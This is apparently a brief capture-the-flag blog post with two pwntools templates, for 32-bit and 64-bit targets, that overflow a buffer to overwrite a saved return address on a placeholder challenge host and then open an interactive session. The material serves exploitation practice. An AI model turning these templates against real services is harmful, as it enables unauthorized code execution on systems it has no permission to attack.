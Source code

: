 ```yaml
---
title: Buffer Overflow Attack
author: janger
date: 2023-09-25
category: pwnables
layout: post
---
```




## pwntools for Return Address Overwrite(x32)

~~~ python
from pwn import *

p = remote('example.pwnable.io', 8000)

dummy = b'A' * 20
sfp = b'B' * 4
ret = p32(0x08048087)

payload = dummy + sfp + ret

p.recvuntil('input: ')
p.send(payload)
p.interactive()
~~~

<br>

## pwntools for Return Address Overwrite(x64)

~~~ python
from pwn import *

p = remote('example.pwnable.io', 8000)

dummy = b'A' * 20
sfp = b'B' * 8
ret = p64(0x08048087)

payload = dummy + sfp + ret

p.recvuntil('input: ')
p.send(payload)
p.interactive()
~~~

<br>


